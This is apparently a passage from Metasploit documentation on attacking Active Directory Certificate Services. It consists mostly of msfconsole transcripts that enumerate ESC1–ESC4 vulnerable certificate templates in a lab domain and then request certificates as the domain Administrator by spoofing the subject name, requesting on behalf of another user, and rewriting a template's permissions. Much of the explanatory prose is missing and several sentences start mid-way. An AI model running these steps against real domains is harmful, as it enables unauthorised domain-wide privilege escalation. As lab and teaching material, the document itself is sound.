


# Setting Up An AD CS Target
# Introduction to AD CS Vulnerabilities



## Finding Vulnerable ESC Templates Using ldap_esc_vulnerable_cert_finder
The following diagram showcases how this permissions check works in a more visual manner:


as well as the permissions that are required to enroll in these certificate templates. The following is a sample output of running this against a test server:
```msf
msf6 > use auxiliary/gather/ldap_esc_vulnerable_cert_finder
msf6 auxiliary(gather/ldap_esc_vulnerable_cert_finder) > show options

Module options (auxiliary/gather/ldap_esc_vulnerable_cert_finder):

   Name                   Current Setting  Required  Description
   ----                   ---------------  --------  -----------
   BASE_DN                                 no        LDAP base DN if you already have it
   DOMAIN                                  no        The domain to authenticate to
   PASSWORD                                no        The password to authenticate with
   REPORT_NONENROLLABLE   false            yes       Report nonenrollable certificate templates
   REPORT_PRIVENROLLABLE  false            yes       Report certificate templates restricted to domain
                                                      and enterprise admin
   RHOSTS                                  yes       The target host(s), see https://github.com/rapid7/metasploit
                                                     -framework/wiki/Using-Metasploit
   RPORT                  389              yes       The target port
   SSL                    false            no        Enable SSL on the LDAP connection
   USERNAME                                no        The username to authenticate with


View the full module info with the info, or info -d command.

msf6 auxiliary(gather/ldap_esc_vulnerable_cert_finder) > set DOMAIN DAFOREST
DOMAIN => DAFOREST
msf6 auxiliary(gather/ldap_esc_vulnerable_cert_finder) > set USERNAME normaluser
USERNAME => normaluser
msf6 auxiliary(gather/ldap_esc_vulnerable_cert_finder) > set PASSWORD normalpass
PASSWORD => normalpass
msf6 auxiliary(gather/ldap_esc_vulnerable_cert_finder) > set RHOSTS 172.30.239.85
RHOSTS => 172.30.239.85
msf6 auxiliary(gather/ldap_esc_vulnerable_cert_finder) > run
[*] Running module against 172.30.239.85

[*] Discovering base DN automatically
[+] 172.30.239.85:389 Discovered base DN: DC=daforest,DC=com
[+] Template: ESC1-Template
[*]   Distinguished Name: CN=ESC1-Template,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=daforest,DC=com
[*]   Manager Approval: Disabled
[*]   Required Signatures: 0
[+]   Vulnerable to: ESC1
[*]   Notes: ESC1: Request can specify a subjectAltName (msPKI-Certificate-Name-Flag)
[*]   Certificate Template Enrollment SIDs:
[*]     * S-1-5-21-3290009963-1772292745-3260174523-512 (Domain Admins)
[*]     * S-1-5-21-3290009963-1772292745-3260174523-513 (Domain Users)
[*]     * S-1-5-21-3290009963-1772292745-3260174523-519 (Enterprise Admins)
[+]   Issuing CA: daforest-WIN-BR0CCBA815B-CA (WIN-BR0CCBA815B.daforest.com)
[*]     Enrollment SIDs:
[*]       * S-1-5-11 (Authenticated Users)
[+] Template: ESC2-Template
[*]   Distinguished Name: CN=ESC2-Template,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=daforest,DC=com
[*]   Manager Approval: Disabled
[*]   Required Signatures: 0
[+]   Vulnerable to: ESC2
[*]   Notes: ESC2: Template defines the Any Purpose OID or no EKUs (PkiExtendedKeyUsage)
[*]   Certificate Template Enrollment SIDs:
[*]     * S-1-5-21-3290009963-1772292745-3260174523-512 (Domain Admins)
[*]     * S-1-5-21-3290009963-1772292745-3260174523-513 (Domain Users)
[*]     * S-1-5-21-3290009963-1772292745-3260174523-519 (Enterprise Admins)
[+]   Issuing CA: daforest-WIN-BR0CCBA815B-CA (WIN-BR0CCBA815B.daforest.com)
[*]     Enrollment SIDs:
[*]       * S-1-5-11 (Authenticated Users)
[+] Template: ESC3-Template1
[*]   Distinguished Name: CN=ESC3-Template1,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=daforest,DC=com
[*]   Manager Approval: Disabled
[*]   Required Signatures: 0
[+]   Vulnerable to: ESC3_TEMPLATE_1
[*]   Notes: ESC3: Template defines the Certificate Request Agent OID (PkiExtendedKeyUsage)
[*]   Certificate Template Enrollment SIDs:
[*]     * S-1-5-21-3290009963-1772292745-3260174523-512 (Domain Admins)
[*]     * S-1-5-21-3290009963-1772292745-3260174523-513 (Domain Users)
[*]     * S-1-5-21-3290009963-1772292745-3260174523-519 (Enterprise Admins)
[+]   Issuing CA: daforest-WIN-BR0CCBA815B-CA (WIN-BR0CCBA815B.daforest.com)
[*]     Enrollment SIDs:
[*]       * S-1-5-11 (Authenticated Users)
[+] Template: User
[*]   Distinguished Name: CN=User,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=daforest,DC=com
[*]   Manager Approval: Disabled
[*]   Required Signatures: 0
[+]   Vulnerable to: ESC3_TEMPLATE_2
[*]   Certificate Template Enrollment SIDs:
[*]     * S-1-5-21-3290009963-1772292745-3260174523-512 (Domain Admins)
[*]     * S-1-5-21-3290009963-1772292745-3260174523-513 (Domain Users)
[*]     * S-1-5-21-3290009963-1772292745-3260174523-519 (Enterprise Admins)
[+]   Issuing CA: daforest-WIN-BR0CCBA815B-CA (WIN-BR0CCBA815B.daforest.com)
[*]     Enrollment SIDs:
[*]       * S-1-5-11 (Authenticated Users)
[+] Template: Machine
[*]   Distinguished Name: CN=Machine,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=daforest,DC=com
[*]   Manager Approval: Disabled
[*]   Required Signatures: 0
[+]   Vulnerable to: ESC3_TEMPLATE_2
[*]   Certificate Template Enrollment SIDs:
[*]     * S-1-5-21-3290009963-1772292745-3260174523-512 (Domain Admins)
[*]     * S-1-5-21-3290009963-1772292745-3260174523-515 (Domain Computers)
[*]     * S-1-5-21-3290009963-1772292745-3260174523-519 (Enterprise Admins)
[+]   Issuing CA: daforest-WIN-BR0CCBA815B-CA (WIN-BR0CCBA815B.daforest.com)
[*]     Enrollment SIDs:
[*]       * S-1-5-11 (Authenticated Users)
[+] Template: ESC3-Template2
[*]   Distinguished Name: CN=ESC3-Template2,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=daforest,DC=com
[*]   Manager Approval: Disabled
[*]   Required Signatures: 0
[+]   Vulnerable to: ESC3_TEMPLATE_2
[*]   Certificate Template Enrollment SIDs:
[*]     * S-1-5-21-3290009963-1772292745-3260174523-512 (Domain Admins)
[*]     * S-1-5-21-3290009963-1772292745-3260174523-513 (Domain Users)
[*]     * S-1-5-21-3290009963-1772292745-3260174523-519 (Enterprise Admins)
[+]   Issuing CA: daforest-WIN-BR0CCBA815B-CA (WIN-BR0CCBA815B.daforest.com)
[*]     Enrollment SIDs:
[*]       * S-1-5-11 (Authenticated Users)
[*] Auxiliary module execution completed
msf6 auxiliary(gather/ldap_esc_vulnerable_cert_finder) >
```

# Using the ESC1 Vulnerability To Get a Certificate as the Domain Administrator
quickly set this up:
```msf
msf6 > use auxiliary/admin/dcerpc/icpr_cert
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CA daforest-WIN-BR0CCBA815B-CA
CA => daforest-WIN-BR0CCBA815B-CA
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE ESC1-Template
CERT_TEMPLATE => ESC1-Template
msf6 auxiliary(admin/dcerpc/icpr_cert) > set RHOSTS 172.30.239.85
RHOSTS => 172.30.239.85
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBDomain DAFOREST
SMBDomain => DAFOREST
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBPass normalpass
SMBPass => normalpass
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBUser normaluser
SMBUser => normaluser
msf6 auxiliary(admin/dcerpc/icpr_cert) > set ALT_SID S-1-5-21-3402587289-1488798532-3618296993-1000
ALT_SID => S-1-5-21-3402587289-1488798532-3618296993-1000
msf6 auxiliary(admin/dcerpc/icpr_cert) > set ALT_UPN Administrator@daforest.com
ALT_UPN => Administrator@daforest.com
msf6 auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 172.30.239.85

[*] 172.30.239.85:445 - Requesting a certificate...
[+] 172.30.239.85:445 - The requested certificate was issued.
[*] 172.30.239.85:445 - Certificate SID: S-1-5-21-3402587289-1488798532-3618296993-1000
[*] 172.30.239.85:445 - Certificate UPN: Administrator@daforest.com
[*] 172.30.239.85:445 - Certificate stored at: /home/gwillcox/.msf4/loot/20221216143830_default_unknown_windows.ad.cs_338144.pfx
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) >
```

# Exploiting ESC2 To Gain Domain Administrator Privileges
For the first run, we will set the usual `RHOSTS`, `CA`, and `CERT_TEMPLATE` details, being sure to set `CERT_TEMPLATE` to the vulnerable `ESC2-Template` certificate template, and supply valid SMB login credentials. This will grant us a certificate for our current user that is based off of the vulnerable `ESC2-Template`:
```msf
msf6 > use auxiliary/admin/dcerpc/icpr_cert
msf6 auxiliary(admin/dcerpc/icpr_cert) > set RHOSTS 172.30.239.85
RHOSTS => 172.30.239.85
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CA daforest-WIN-BR0CCBA815B-CA
CA => daforest-WIN-BR0CCBA815B-CA
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE ESC2-Template
CERT_TEMPLATE => ESC2-Template
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBDomain DAFOREST
SMBDomain => DAFOREST
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBPass normalpass
SMBPass => normalpass
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBUser normaluser
SMBUser => normaluser
msf6 auxiliary(admin/dcerpc/icpr_cert) > show options

Module options (auxiliary/admin/dcerpc/icpr_cert):

   Name           Current Setting              Required  Description
   ----           ---------------              --------  -----------
   ALT_DNS                                     no        Alternative certificate DNS
   ALT_UPN                                     no        Alternative certificate UPN (format: USER@DOMAIN)
   CA             daforest-WIN-BR0CCBA815B-CA  yes       The target certificate authority
   CERT_TEMPLATE  ESC2-Template                yes       The certificate template
   ON_BEHALF_OF                                no        Username to request on behalf of (format: DOMAIN\USER)
   PFX                                         no        Certificate to request on behalf of
   RHOSTS         172.30.239.85                yes       The target host(s), see https://github.com/rapid7/metas
                                                         ploit-framework/wiki/Using-Metasploit
   RPORT          445                          yes       The target port (TCP)
   SMBDomain      DAFOREST                     no        The Windows domain to use for authentication
   SMBPass        normalpass                   no        The password for the specified username
   SMBUser        normaluser                   no        The username to authenticate as


Auxiliary action:

   Name          Description
   ----          -----------
   REQUEST_CERT  Request a certificate


View the full module info with the info, or info -d command.

msf6 auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 172.30.239.85

[*] 172.30.239.85:445 - Requesting a certificate...
[+] 172.30.239.85:445 - The requested certificate was issued.
[*] 172.30.239.85:445 - Certificate UPN: normal@daforest.com
[*] 172.30.239.85:445 - Certificate SID: S-1-5-21-3290009963-1772292745-3260174523-1611
[*] 172.30.239.85:445 - Certificate stored at: /home/gwillcox/.msf4/loot/20221216154930_default_unknown_windows.ad.cs_104207.pfx
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) > loot

Loot
====

host  service  type           name             content               info                         path
----  -------  ----           ----             -------               ----                         ----
               windows.ad.cs  certificate.pfx  application/x-pkcs12  DAFOREST\normal Certificate  /home/gwillcox/.msf4/loot/20221216154930_default_unknown_windows.ad.cs_104207.pfx

msf6 auxiliary(admin/dcerpc/icpr_cert) >
```

Next, we need to use the PFX file that we got to request another certificate to authenticate on behalf of another user. We will use the `PFX` option to specify the PFX file, and the `ON_BEHALF_OF` setting to specify the user we would like to authenticate on behalf of. Finally we will change the certificate template to another certificate template that we are able to enroll in. The default `User` certificate should work here since it allows enrollment by any authenticated domain user.
```msf
msf6 auxiliary(admin/dcerpc/icpr_cert) > show options

Module options (auxiliary/admin/dcerpc/icpr_cert):

   Name           Current Setting              Required  Description
   ----           ---------------              --------  -----------
   ALT_DNS                                     no        Alternative certificate DNS
   ALT_UPN                                     no        Alternative certificate UPN (format: USER@DOMAIN)
   CA             daforest-WIN-BR0CCBA815B-CA  yes       The target certificate authority
   CERT_TEMPLATE  ESC2-Template                yes       The certificate template
   ON_BEHALF_OF                                no        Username to request on behalf of (format: DOMAIN\USER)
   PFX                                         no        Certificate to request on behalf of
   RHOSTS         172.30.239.85                yes       The target host(s), see https://github.com/rapid7/metas
                                                         ploit-framework/wiki/Using-Metasploit
   RPORT          445                          yes       The target port (TCP)
   SMBDomain      DAFOREST                     no        The Windows domain to use for authentication
   SMBPass        normalpass                   no        The password for the specified username
   SMBUser        normaluser                   no        The username to authenticate as


Auxiliary action:

   Name          Description
   ----          -----------
   REQUEST_CERT  Request a certificate


View the full module info with the info, or info -d command.

msf6 auxiliary(admin/dcerpc/icpr_cert) > set ON_BEHALF_OF DAFOREST\\Administrator
ON_BEHALF_OF => DAFOREST\Administrator
msf6 auxiliary(admin/dcerpc/icpr_cert) > set PFX /home/gwillcox/.msf4/loot/20221216154930_default_unknown_windows.ad.cs_104207.pfx
PFX => /home/gwillcox/.msf4/loot/20221216154930_default_unknown_windows.ad.cs_104207.pfx
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE User
CERT_TEMPLATE => User
msf6 auxiliary(admin/dcerpc/icpr_cert) > show options

Module options (auxiliary/admin/dcerpc/icpr_cert):

   Name           Current Setting                 Required  Description
   ----           ---------------                 --------  -----------
   ALT_DNS                                        no        Alternative certificate DNS
   ALT_UPN                                        no        Alternative certificate UPN (format: USER@DOMAIN)
   CA             daforest-WIN-BR0CCBA815B-CA     yes       The target certificate authority
   CERT_TEMPLATE  User                            yes       The certificate template
   ON_BEHALF_OF   DAFOREST\Administrator          no        Username to request on behalf of (format: DOMAIN\USE
                                                            R)
   PFX            /home/gwillcox/.msf4/loot/2022  no        Certificate to request on behalf of
                  1216154930_default_unknown_win
                  dows.ad.cs_104207.pfx
   RHOSTS         172.30.239.85                   yes       The target host(s), see https://github.com/rapid7/me
                                                            tasploit-framework/wiki/Using-Metasploit
   RPORT          445                             yes       The target port (TCP)
   SMBDomain      DAFOREST                        no        The Windows domain to use for authentication
   SMBPass        normalpass                      no        The password for the specified username
   SMBUser        normaluser                      no        The username to authenticate as


Auxiliary action:

   Name          Description
   ----          -----------
   REQUEST_CERT  Request a certificate


View the full module info with the info, or info -d command.

msf6 auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 172.30.239.85

[*] 172.30.239.85:445 - Requesting a certificate...
[+] 172.30.239.85:445 - The requested certificate was issued.
[*] 172.30.239.85:445 - Certificate UPN: Administrator@daforest.com
[*] 172.30.239.85:445 - Certificate SID: S-1-5-21-3290009963-1772292745-3260174523-500
[*] 172.30.239.85:445 - Certificate stored at: /home/gwillcox/.msf4/loot/20221216155701_default_unknown_windows.ad.cs_756798.pfx
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) > loot

Loot
====

host  service  type           name             content               info                         path
----  -------  ----           ----             -------               ----                         ----
               windows.ad.cs  certificate.pfx  application/x-pkcs12  DAFOREST\normal Certificate  /home/gwillcox/.msf4/loot/20221216154930_default_unknown_windows.ad.cs_104207.pfx
               windows.ad.cs  certificate.pfx  application/x-pkcs12  DAFOREST\normal Certificate  /home/gwillcox/.msf4/loot/20221216155701_default_unknown_windows.ad.cs_756798.pfx

msf6 auxiliary(admin/dcerpc/icpr_cert) >
```

# Exploiting ESC3 To Gain Domain Administrator Privileges
We'll first get the cert using `ipcr_cert` with the `ESC3-Template1` certificate.
```msf
msf6 > use auxiliary/admin/dcerpc/icpr_cert
msf6 auxiliary(admin/dcerpc/icpr_cert) > show options

Module options (auxiliary/admin/dcerpc/icpr_cert):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   ALT_DNS                         no        Alternative certificate DNS
   ALT_UPN                         no        Alternative certificate UPN (format: USER@DOMAIN)
   CA                              yes       The target certificate authority
   CERT_TEMPLATE  User             yes       The certificate template
   ON_BEHALF_OF                    no        Username to request on behalf of (format: DOMAIN\USER)
   PFX                             no        Certificate to request on behalf of
   RHOSTS                          yes       The target host(s), see https://github.com/rapid7/metasploit-framew
                                             ork/wiki/Using-Metasploit
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        The Windows domain to use for authentication
   SMBPass                         no        The password for the specified username
   SMBUser                         no        The username to authenticate as


Auxiliary action:

   Name          Description
   ----          -----------
   REQUEST_CERT  Request a certificate


View the full module info with the info, or info -d command.

msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBUser normaluser
SMBUser => normaluser
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBPass normalpass
SMBPass => normalpass
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBDomain DAFOREST
SMBDomain => DAFOREST
msf6 auxiliary(admin/dcerpc/icpr_cert) > set RHOSTS 172.30.239.85
RHOSTS => 172.30.239.85
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CA daforest-WIN-BR0CCBA815B-CA
CA => daforest-WIN-BR0CCBA815B-CA
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE ESC3-Template1
CERT_TEMPLATE => ESC3-Template1
msf6 auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 172.30.239.85

[*] 172.30.239.85:445 - Requesting a certificate...
[+] 172.30.239.85:445 - The requested certificate was issued.
[*] 172.30.239.85:445 - Certificate UPN: normal@daforest.com
[*] 172.30.239.85:445 - Certificate SID: S-1-5-21-3290009963-1772292745-3260174523-1611
[*] 172.30.239.85:445 - Certificate stored at: /home/gwillcox/.msf4/loot/20221216174221_default_unknown_windows.ad.cs_027866.pfx
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) > loot

Loot
====

host  service  type           name             content               info                         path
----  -------  ----           ----             -------               ----                         ----
               windows.ad.cs  certificate.pfx  application/x-pkcs12  DAFOREST\normal Certificate  /home/gwillcox/.msf4/loot/20221216173718_default_unknown_windows.ad.cs_580032.pfx
               windows.ad.cs  certificate.pfx  application/x-pkcs12  DAFOREST\normal Certificate  /home/gwillcox/.msf4/loot/20221216174221_default_unknown_windows.ad.cs_027866.pfx

msf6 auxiliary(admin/dcerpc/icpr_cert) >
```

Next, we'll try use this certificate to request another certificate on behalf of a different user. For this stage we need to specify another certificate that is vulnerable to the ESC3_TEMPLATE_2 attack vector that we are able to enroll in. We will use the `User` template for this:
```msf
msf6 auxiliary(admin/dcerpc/icpr_cert) > set PFX /home/gwillcox/.msf4/loot/20221216174221_default_unknown_windows.ad.cs_027866.pfx
PFX => /home/gwillcox/.msf4/loot/20221216174221_default_unknown_windows.ad.cs_027866.pfx
msf6 auxiliary(admin/dcerpc/icpr_cert) > set ON_BEHALF_OF DAFOREST\\Administrator
ON_BEHALF_OF => DAFOREST\Administrator
msf6 auxiliary(admin/dcerpc/icpr_cert) > show options

Module options (auxiliary/admin/dcerpc/icpr_cert):

   Name           Current Setting                 Required  Description
   ----           ---------------                 --------  -----------
   ALT_DNS                                        no        Alternative certificate DNS
   ALT_UPN                                        no        Alternative certificate UPN (format: USER@DOMAIN)
   CA             daforest-WIN-BR0CCBA815B-CA     yes       The target certificate authority
   CERT_TEMPLATE  ESC3-Template1                  yes       The certificate template
   ON_BEHALF_OF   DAFOREST\Administrator          no        Username to request on behalf of (format: DOMAIN\USE
                                                            R)
   PFX            /home/gwillcox/.msf4/loot/2022  no        Certificate to request on behalf of
                  1216174221_default_unknown_win
                  dows.ad.cs_027866.pfx
   RHOSTS         172.30.239.85                   yes       The target host(s), see https://github.com/rapid7/me
                                                            tasploit-framework/wiki/Using-Metasploit
   RPORT          445                             yes       The target port (TCP)
   SMBDomain      DAFOREST                        no        The Windows domain to use for authentication
   SMBPass        normalpass                      no        The password for the specified username
   SMBUser        normaluser                      no        The username to authenticate as


Auxiliary action:

   Name          Description
   ----          -----------
   REQUEST_CERT  Request a certificate


View the full module info with the info, or info -d command.

msf6 auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE User
CERT_TEMPLATE => User
msf6 auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 172.30.239.85

[*] 172.30.239.85:445 - Requesting a certificate...
[+] 172.30.239.85:445 - The requested certificate was issued.
[*] 172.30.239.85:445 - Certificate UPN: Administrator@daforest.com
[*] 172.30.239.85:445 - Certificate SID: S-1-5-21-3290009963-1772292745-3260174523-500
[*] 172.30.239.85:445 - Certificate stored at: /home/gwillcox/.msf4/loot/20221216174559_default_unknown_windows.ad.cs_570105.pfx
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) >
```

Just to show this is also possible with `ESC3-Template2` here is a snippet showing that also works:
```msf
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE ESC3-Template2
CERT_TEMPLATE => ESC3-Template2
msf6 auxiliary(admin/dcerpc/icpr_cert) > show options

Module options (auxiliary/admin/dcerpc/icpr_cert):

   Name           Current Setting                 Required  Description
   ----           ---------------                 --------  -----------
   ALT_DNS                                        no        Alternative certificate DNS
   ALT_UPN                                        no        Alternative certificate UPN (format: USER@DOMAIN)
   CA             daforest-WIN-BR0CCBA815B-CA     yes       The target certificate authority
   CERT_TEMPLATE  ESC3-Template2                  yes       The certificate template
   ON_BEHALF_OF   DAFOREST\Administrator          no        Username to request on behalf of (format: DOMAIN\USE
                                                            R)
   PFX            /home/gwillcox/.msf4/loot/2022  no        Certificate to request on behalf of
                  1216174221_default_unknown_win
                  dows.ad.cs_027866.pfx
   RHOSTS         172.30.239.85                   yes       The target host(s), see https://github.com/rapid7/me
                                                            tasploit-framework/wiki/Using-Metasploit
   RPORT          445                             yes       The target port (TCP)
   SMBDomain      DAFOREST                        no        The Windows domain to use for authentication
   SMBPass        normalpass                      no        The password for the specified username
   SMBUser        normaluser                      no        The username to authenticate as


Auxiliary action:

   Name          Description
   ----          -----------
   REQUEST_CERT  Request a certificate


View the full module info with the info, or info -d command.

msf6 auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 172.30.239.85

[*] 172.30.239.85:445 - Requesting a certificate...
[+] 172.30.239.85:445 - The requested certificate was issued.
[*] 172.30.239.85:445 - Certificate UPN: Administrator@daforest.com
[*] 172.30.239.85:445 - Certificate SID: S-1-5-21-3290009963-1772292745-3260174523-500
[*] 172.30.239.85:445 - Certificate stored at: /home/gwillcox/.msf4/loot/20221216180342_default_unknown_windows.ad.cs_390825.pfx
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) >
```

# Exploiting ESC4 To Gain Domain Administrator Privileges
`CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` flag is not set in the `msPKI-Certificate-Name-Flag` field).
```msf
msf6 > use auxiliary/admin/dcerpc/icpr_cert 
msf6 auxiliary(admin/dcerpc/icpr_cert) > set RHOSTS 172.30.239.85
RHOSTS => 172.30.239.85
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBUser normaluser
SMBUser => normaluser
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBPass normalpass
SMBPass => normalpass
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CA daforest-WIN-BR0CCBA815B-CA
CA => daforest-WIN-BR0CCBA815B-CA
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE ESC4-Test
CERT_TEMPLATE => ESC4-Test
msf6 auxiliary(admin/dcerpc/icpr_cert) > set ALT_UPN Administrator@daforest.com
ALT_UPN => Administrator@daforest.com
msf6 auxiliary(admin/dcerpc/icpr_cert) > run 
[*] Running module against 172.30.239.85

[-] 172.30.239.85:445 - There was an error while requesting the certificate.
[-] 172.30.239.85:445 - Denied by Policy Module
[-] 172.30.239.85:445 - Error details:
[-] 172.30.239.85:445 -   Source:  (0x0009) FACILITY_SECURITY: The source of the error code is the Security API layer.
[-] 172.30.239.85:445 -   HRESULT: (0x80094812) CERTSRV_E_SUBJECT_EMAIL_REQUIRED: The email name is unavailable and cannot be added to the Subject or Subject Alternate name.
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) > 
```

descriptor.
```msf
msf6 auxiliary(admin/dcerpc/icpr_cert) > use auxiliary/admin/ldap/ad_cs_cert_template 
msf6 auxiliary(admin/ldap/ad_cs_cert_template) > set RHOSTS 172.30.239.85
RHOSTS => 172.30.239.85
msf6 auxiliary(admin/ldap/ad_cs_cert_template) > set USERNAME normaluser
USERNAME => normaluser
msf6 auxiliary(admin/ldap/ad_cs_cert_template) > set PASSWORD normalpass
PASSWORD => normalpass
msf6 auxiliary(admin/ldap/ad_cs_cert_template) > set CERT_TEMPLATE ESC4-Test
CERT_TEMPLATE => ESC4-Test
msf6 auxiliary(admin/ldap/ad_cs_cert_template) > set ACTION UPDATE 
ACTION => UPDATE
msf6 auxiliary(admin/ldap/ad_cs_cert_template) > set VERBOSE true 
VERBOSE => true
msf6 auxiliary(admin/ldap/ad_cs_cert_template) > run
[*] Running module against 172.30.239.85

[+] Successfully bound to the LDAP server!
[*] Discovering base DN automatically
[*] 172.30.239.85:389 Getting root DSE
[+] 172.30.239.85:389 Discovered base DN: DC=daforest,DC=com
[+] Read certificate template data for: CN=ESC4-Test,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=daforest,DC=com
[*] Certificate template data written to: /home/smcintyre/.msf4/loot/20230505083802_default_172.30.239.85_windows.ad.cs.te_593597.json
[*] Parsing SDDL text: D:PAI(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;AU)
[+] The operation completed successfully!
[*] Auxiliary module execution completed
msf6 auxiliary(admin/ldap/ad_cs_cert_template) > 
```

to switch back to the last module and reattempt to issue the certificate. This time, the operation succeeds.
```msf
msf6 auxiliary(admin/ldap/ad_cs_cert_template) > previous 
msf6 auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 172.30.239.85

[+] 172.30.239.85:445 - The requested certificate was issued.
[*] 172.30.239.85:445 - Certificate UPN: Administrator@daforest.com
[*] 172.30.239.85:445 - Certificate stored at: /home/smcintyre/.msf4/loot/20230505083913_default_172.30.239.85_windows.ad.cs_275324.pfx
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) > 
```

setting the local template data option `TEMPLATE_FILE` to the JSON file that was created by the previous run.
```msf
msf6 auxiliary(admin/dcerpc/icpr_cert) > previous 
msf6 auxiliary(admin/ldap/ad_cs_cert_template) > set TEMPLATE_FILE /home/smcintyre/.msf4/loot/20230505083802_default_172.30.239.85_windows.ad.cs.te_593597.json
TEMPLATE_FILE => /home/smcintyre/.msf4/loot/20230505083802_default_172.30.239.85_windows.ad.cs.te_593597.json
msf6 auxiliary(admin/ldap/ad_cs_cert_template) > run
[*] Running module against 172.30.239.85

[+] Successfully bound to the LDAP server!
[*] Discovering base DN automatically
[*] 172.30.239.85:389 Getting root DSE
[+] 172.30.239.85:389 Discovered base DN: DC=daforest,DC=com
[+] Read certificate template data for: CN=ESC4-Test,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=daforest,DC=com
[*] Certificate template data written to: /home/smcintyre/.msf4/loot/20230505083942_default_172.30.239.85_windows.ad.cs.te_000095.json
[+] The operation completed successfully!
[*] Auxiliary module execution completed
msf6 auxiliary(admin/ldap/ad_cs_cert_template) >
```

